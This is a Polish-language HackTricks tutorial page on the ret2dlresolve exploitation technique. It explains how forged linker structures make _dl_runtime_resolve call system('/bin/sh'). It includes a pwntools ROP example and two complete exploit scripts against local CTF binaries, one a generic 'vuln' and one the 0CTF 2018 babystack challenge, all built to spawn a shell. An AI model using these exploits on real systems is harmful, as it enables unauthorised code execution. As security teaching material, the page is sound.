 # Ret2dlresolve

{{#include ../../banners/hacktricks-training.md}}

## Podstawowe informacje

Jak wyjaśniono na stronie o [**GOT/PLT**](../arbitrary-write-2-exec/aw2exec-got-plt.md) i [**Relro**](../common-binary-protections-and-bypasses/relro.md), binaria bez Full Relro będą rozwiązywać symbole (takie jak adresy do zewnętrznych bibliotek) za pierwszym razem, gdy są używane. To rozwiązywanie odbywa się poprzez wywołanie funkcji **`_dl_runtime_resolve`**.

Funkcja **`_dl_runtime_resolve`** pobiera ze stosu odniesienia do niektórych struktur, których potrzebuje, aby **rozwiązać** określony symbol.

Dlatego możliwe jest **sfałszowanie wszystkich tych struktur**, aby dynamicznie powiązane rozwiązywanie żądanego symbolu (takiego jak funkcja **`system`**) i wywołanie go z skonfigurowanym parametrem (np. **`system('/bin/sh')`**).

Zazwyczaj wszystkie te struktury są fałszowane poprzez stworzenie **początkowego łańcucha ROP, który wywołuje `read`** w pamięci zapisywalnej, następnie **struktury** i ciąg **`'/bin/sh'** są przekazywane, aby zostały zapisane przez `read` w znanej lokalizacji, a następnie łańcuch ROP kontynuuje, wywołując **`_dl_runtime_resolve`**, mając na celu **rozwiązanie adresu `system`** w fałszywych strukturach i **wywołanie tego adresu** z adresem do `$'/bin/sh'`.

> [!TIP]
> Ta technika jest szczególnie przydatna, jeśli nie ma gadżetów syscall (aby używać technik takich jak [**ret2syscall**](rop-syscall-execv/) lub [SROP](srop-sigreturn-oriented-programming/)) i nie ma sposobów na wyciek adresów libc.

Sprawdź ten film, aby uzyskać ładne wyjaśnienie tej techniki w drugiej połowie filmu:

{{#ref}}
https://youtu.be/ADULSwnQs-s?feature=shared
{{#endref}}

Lub sprawdź te strony, aby uzyskać krok po kroku wyjaśnienie:

- [https://www.ctfrecipes.com/pwn/stack-exploitation/arbitrary-code-execution/code-reuse-attack/ret2dlresolve#how-it-works](https://www.ctfrecipes.com/pwn/stack-exploitation/arbitrary-code-execution/code-reuse-attack/ret2dlresolve#how-it-works)
- [https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve#structures](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve#structures)

## Podsumowanie ataku

1. Napisz fałszywe struktury w jakimś miejscu
2. Ustaw pierwszy argument system (`$rdi = &'/bin/sh'`)
3. Ustaw na stosie adresy do struktur, aby wywołać **`_dl_runtime_resolve`**
4. **Wywołaj** `_dl_runtime_resolve`
5. **`system`** zostanie rozwiązany i wywołany z `'/bin/sh'` jako argument

Z [**dokumentacji pwntools**](https://docs.pwntools.com/en/stable/rop/ret2dlresolve.html), tak wygląda atak **`ret2dlresolve`**:
```python
context.binary = elf = ELF(pwnlib.data.elf.ret2dlresolve.get('amd64'))
>>> rop = ROP(elf)
>>> dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["echo pwned"])
>>> rop.read(0, dlresolve.data_addr) # do not forget this step, but use whatever function you like
>>> rop.ret2dlresolve(dlresolve)
>>> raw_rop = rop.chain()
>>> print(rop.dump())
0x0000:         0x400593 pop rdi; ret
0x0008:              0x0 [arg0] rdi = 0
0x0010:         0x400591 pop rsi; pop r15; ret
0x0018:         0x601e00 [arg1] rsi = 6299136
0x0020:      b'iaaajaaa' <pad r15>
0x0028:         0x4003f0 read
0x0030:         0x400593 pop rdi; ret
0x0038:         0x601e48 [arg0] rdi = 6299208
0x0040:         0x4003e0 [plt_init] system
0x0048:          0x15670 [dlresolve index]
```
## Przykład

### Czyste Pwntools

Możesz znaleźć [**przykład tej techniki tutaj**](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve/exploitation) **zawierający bardzo dobre wyjaśnienie końcowego łańcucha ROP**, ale oto końcowy exploit użyty:
```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = elf.process()
rop = ROP(elf)

# create the dlresolve object
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])

rop.raw('A' * 76)
rop.read(0, dlresolve.data_addr) # read to where we want to write the fake structures
rop.ret2dlresolve(dlresolve)     # call .plt and dl-resolve() with the correct, calculated reloc_offset

log.info(rop.dump())

p.sendline(rop.chain())
p.sendline(dlresolve.payload)    # now the read is called and we pass all the relevant structures in

p.interactive()
```
### Surowe
```python
# Code from https://guyinatuxedo.github.io/18-ret2_csu_dl/0ctf18_babystack/index.html
# This exploit is based off of: https://github.com/sajjadium/ctf-writeups/tree/master/0CTFQuals/2018/babystack

from pwn import *

target = process('./babystack')
#gdb.attach(target)

elf = ELF('babystack')

# Establish starts of various sections
bss = 0x804a020

dynstr = 0x804822c

dynsym = 0x80481cc

relplt = 0x80482b0

# Establish two functions

scanInput = p32(0x804843b)
resolve = p32(0x80482f0) #dlresolve address

# Establish size of second payload

payload1_size = 43

# Our first scan
# This will call read to scan in our fake entries into the plt
# Then return back to scanInput to re-exploit the bug

payload0 = ""

payload0 += "0"*44                        # Filler from start of input to return address
payload0 += p32(elf.symbols['read'])    # Return read
payload0 += scanInput                    # After the read call, return to scan input
payload0 += p32(0)                        # Read via stdin
payload0 += p32(bss)                    # Scan into the start of the bss
payload0 += p32(payload1_size)            # How much data to scan in

target.send(payload0)

# Our second scan
# This will be scanned into the start of the bss
# It will contain the fake entries for our ret_2_dl_resolve attack

# Calculate the r_info value
# It will provide an index to our dynsym entry
dynsym_offset = ((bss + 0xc) - dynsym) / 0x10
r_info = (dynsym_offset << 8) | 0x7

# Calculate the offset from the start of dynstr section to our dynstr entry
dynstr_index = (bss + 28) - dynstr

paylaod1 = ""

# Our .rel.plt entry
paylaod1 += p32(elf.got['alarm'])
paylaod1 += p32(r_info)

# Empty
paylaod1 += p32(0x0)

# Our dynsm entry
paylaod1 += p32(dynstr_index)
paylaod1 += p32(0xde)*3

# Our dynstr entry
paylaod1 += "system\x00"

# Store "/bin/sh" here so we can have a pointer ot it
paylaod1 += "/bin/sh\x00"

target.send(paylaod1)

# Our third scan, which will execute the ret_2_dl_resolve
# This will just call 0x80482f0, which is responsible for calling the functions for resolving
# We will pass it the `.rel.plt` index for our fake entry
# As well as the arguments for system

# Calculate address of "/bin/sh"
binsh_bss_address = bss + 35

# Calculate the .rel.plt offset
ret_plt_offset = bss - relplt


paylaod2 = ""

paylaod2 += "0"*44
paylaod2 += resolve                 # 0x80482f0
paylaod2 += p32(ret_plt_offset)        # .rel.plt offset
paylaod2 += p32(0xdeadbeef)            # The next return address after 0x80482f0, really doesn't matter for us
paylaod2 += p32(binsh_bss_address)    # Our argument, address of "/bin/sh"

target.send(paylaod2)

# Enjoy the shell!
target.interactive()
```
## Inne przykłady i odniesienia

- [https://youtu.be/ADULSwnQs-s](https://youtu.be/ADULSwnQs-s?feature=shared)
- [https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve)
- [https://guyinatuxedo.github.io/18-ret2_csu_dl/0ctf18_babystack/index.html](https://guyinatuxedo.github.io/18-ret2_csu_dl/0ctf18_babystack/index.html)
- 32bit, bez relro, bez canary, nx, bez pie, podstawowy mały overflow bufora i powrót. Aby to wykorzystać, bof jest używany do ponownego wywołania `read` z sekcją `.bss` i większym rozmiarem, aby przechować tam fałszywe tabele `dlresolve` do załadowania `system`, powrócić do main i ponownie wykorzystać początkowy bof do wywołania dlresolve, a następnie `system('/bin/sh')`.

{{#include ../../banners/hacktricks-training.md}}
